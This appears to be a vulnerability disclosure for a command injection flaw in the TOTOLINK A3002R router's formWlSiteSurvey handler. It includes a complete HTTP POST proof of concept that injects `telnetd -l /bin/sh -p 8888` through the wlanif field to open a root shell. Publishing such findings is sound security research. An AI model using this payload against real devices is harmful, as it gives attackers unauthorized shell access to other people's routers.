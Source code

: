 # TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A3002R

Version:V1.1.1-B20200824.0128

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)



## Vulnerability description

We found an command Injection vulnerability TOTOLINK router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `boa` binary:

In `formWlSiteSurvey` function, `wlanif` is directly passed by the attacker, so we can control the `wlanif` to attack the OS.

As you can see here, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `wlanif` as **`telnetd -l /bin/sh -p 8888`** , and the router will excute it,such as:

```http
POST /boafrm/formWlSiteSurvey HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 131
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/wirelessScan_tbl.htm
Upgrade-Insecure-Requests: 1

refresh=&submit-url=%2FwirelessScan_tbl.htm&connect=pjqwudi&wlanif=`telnetd -l /bin/sh -p 8888`&select=sel-1&wlan_idx=1&ifname=wlan0
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>


